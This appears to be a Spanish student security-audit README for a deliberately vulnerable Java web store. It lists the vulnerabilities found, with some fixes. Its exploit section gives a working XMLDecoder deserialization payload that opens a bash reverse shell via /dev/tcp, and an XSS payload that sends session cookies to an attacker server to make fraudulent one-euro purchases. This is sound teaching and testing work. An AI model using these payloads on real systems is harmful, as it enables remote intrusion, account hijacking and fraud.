





###### por Sergio Luaces Martín, Diego Dopazo García y Aarón yada yada

# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 
- XSS en el login
		Se ha detectado que en varios casos donde se permite al usuario iniciar sesión, poniendo los tags de script, se puede ejecutar código arbitrario.
		Aparte de en el caso del login, también ocurre en otros casos donde se le permite al usuario escribir texto.
		Se ha solucionado...
- SQLi en el login
- File upload en la foto de perfil
		Se ha detectado que se pueden subir ficheros maliciosos que no son necesariamente imágenes en la opción de "subir una imagen de perfil", provocando que puedan ejecutarse scripts, entre otros.
		Se ha solucionado usando PngReader de la librería pngj haciendo que se compruebe que lo que se pase como fichero adjunto en la foto de perfil es realmente un fochero PNG. Esto se consigue analizando el cuerpo entero del fichero.
- Bussines logging en el precio a la hora de pagar
- Information disclosure (Los errores que se muestran en la página)
- Insecure Deserialization (cookie: user-info)
- Access control (puedes comentar sin haber comprado el producto)
- Validacion de datos en la capa modelo (usuario)
- Validación de datos en formularios
- Exposición de información sensible
- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
    Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````
- Open Redirect en el flujo de autenticación, concretamente en el parámetro next de /login?next=...  
- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:



Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.


> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:



Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:



Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  


